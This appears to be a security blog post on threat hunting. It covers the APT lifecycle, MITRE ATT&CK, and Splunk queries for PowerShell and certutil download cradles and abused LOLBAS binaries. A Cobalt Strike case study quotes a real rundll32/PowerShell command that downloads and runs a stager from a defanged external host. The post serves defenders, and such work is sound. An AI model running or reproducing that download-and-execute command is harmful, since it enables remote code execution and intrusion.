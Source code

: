 ```yaml
---
title: "Hunting for Evil" 
layout: "post"
---
```


__Threat__ __hunting__ - the act of aggressively intercepting, tracking and eliminating cyber adversaries as early as possible in the __Cyber__ __Kill__ __Chain__.
To prevent, detect and resolve an __APT__, you must recognize its characteristics. 
Most APTs follow the same basic life cycle of infiltrating a network, expanding access and achieving the goal of the attack, which is most commonly stealing data by extracting it from the network.




1) In the first phase, usually referred to __"Initial__ __Access"__, advanced persistent threats often gain access through social engineering techniques. One indication of an APT is a phishing email that selectively targets high-level individuals like senior executives or technology leaders, often using information obtained from other team members that have already been compromised. Email attacks that target specific individuals are called “spear-phishing.”

2) In the second phase, usually referred to __"Lateral__ __Movement"__ attackers insert malware into an organization’s network to move to the second phase, expansion. They move laterally to map the network and gather credentials such as account names and passwords in order to access critical business information.
Additional entry points are often established to ensure that the attack can continue if a compromised point is discovered and closed.

3) In the third phase, usually referred to __"Exfiltration"__, cybercriminals typically store stolen information in a secure location within the network until enough data has been collected. They then extract, or “exfiltrate” it without detection. 

Threats are human. Focused and funded adversaries will not be countered by security boxes on the network alone. Threat hunters are actively searching for threats to prevent or minimize damage before it happens.


The Threat Hunting concept can be easily summarized with the __Locard's__ __Exchange__ __Principle__, which says that: "Every Contact leave a trace". 
Thinking about our attacker this makes perfect sense.  

<p align="center">
  <img src="/assets/posts/2021-11-01-Hunting-for-Evil/pyramidofpain.JPG">
</p>


## 1) Introduction to Threat hunting 

In traditional security monitoring approach, most of the blue teamers look out for threats based on the alerts being triggered out by SIEM or other security devices.
In addition to alert–driven approach, why can’t we add a continuous process for finding stuff from the data without any alerts driving us for incident. 
That’s the process of Threat hunting, proactively looking out for threats in network. 
Those threats which are not identified by your existing security solutions or attacks which bypassed your solutions can be hunted down using this process.

As a baseline the following steps are needed to perform hunting activities: 

- Develop Hypothesis – Hypothesis means what u want to look for, like looking out for powershell commands making connection to internet etc.
- Gather data – Based on the hypothesis, look out for data you need to collect for hunting.
- Test hypothesis and gather hunting – Once data is collected, look out for threats based on behavior, search queries .
- Automate certain tasks – Threat hunting can never be fully automated but semi-automated.
- Operationalize Threat Hunting – Now, instead of ad-hoc hunting, operationalize your hunting program so that we can perform continuous threat hunting.

Most of the threat hunting platforms uses `“Attack MITRE” adversary model. MITRE ATT&CK™` is a globally-accessible knowledge base of adversary tactics and
techniques based on real-world observations. 

The `Mitre` team has listed down all those adversary behaviors and attack vectors carries out by an adversary on a victim machine. 
It provides you with description as well as some references regarding the threats, based on historical outbreak. 
It uses `TTP’s Tactics, Techniques and Procedures` and maps it to __Cyber__ __Kill__ __chain__.




Below some basic example of practical threat hunting approach based on hypothesis.

- `Word.exe` or `excel.exe` file opening powershell which runs `mimikatz` command for hash dumping – To check this hypothesis, first look for data, do we have
proper data to hunt for this hypothesis, then hunt for __winword.exe__ __execl.exe__ process creating __powershell.exe__, and command line containing (
`mimikatz`).

- Downloading files from internet (Other than browser) – Look out for process which are used to download files from internet other than browser,
`certutil.exe` , `hh.exe` can be used for the same.

- `Powershell download cradles` event_data.CommandLine:(*powershell* *pwsh* *SyncAppvPublishingServer*) AND event_data.CommandLine:(*BitsTransfer* *webclient* *DownloadFile* *downloadstring* *wget* *curl* *WebRequest* *WinHttpRequest* iwr irm "*internetExplorer.Application*" "*Msxml2.XMLHTTP*" "*MsXml2.ServerXmlHttp*")

- Using `certutil,exe` for downloading event_data.CommandLine:(*certutil*) AND event_data.CommandLine:(*urlcach* *url* *ping*) AND event_data.CommandLine:(*http* *ftp*)


__Note:__ Testing 


## 2) Basic LOLBAS Hunting with Splunk 

The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

- General term used when an attacker abuses built-in binaries and scripts of an OS install or common application installation
- These techniques may be harder to detect, evade controls, blend in with normal use etc.
- `LOLBAS` typically provides examples of how these tools are invoked at the command line.

Below some example of typical `LOLBAS` software abused by APT.

- powershell.exe
- bitsadmin.exe
- certutil.exe
- psexec.exe
- wmic.exe
- mshta.exe
- mofcomp.exe
- cmstp.exe
- windbg.exe
- cdb.exe
- msbuild.exe
- csc.exe
- regsvr32.exe

In the case study presented below the threat actor uses `Cobalt Strike` beacon for their post-exploitation activities with a __PowerShell__ stager generated from the Cobalt Strike framework.
The telemetry shows this attack launched by abusing `rundll32.exe` and the command line invoking __JScript__ code to download a web page and launch the initial __PowerShell__ stager.

```js
rundll32.exe javascript:\\..\\mshtml,RunHTMLApplication ;document.write();new%20ActiveXObject(WScript.Shell).Run(powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('hxxps://stjohnplece.co/lll/webax.js');
```

The first PowerShell stage, webax.js decompresses the second-stage PowerShell code that loads the first shellcode stage into memory and creates a specific request to download what seems like a standard jQuery library.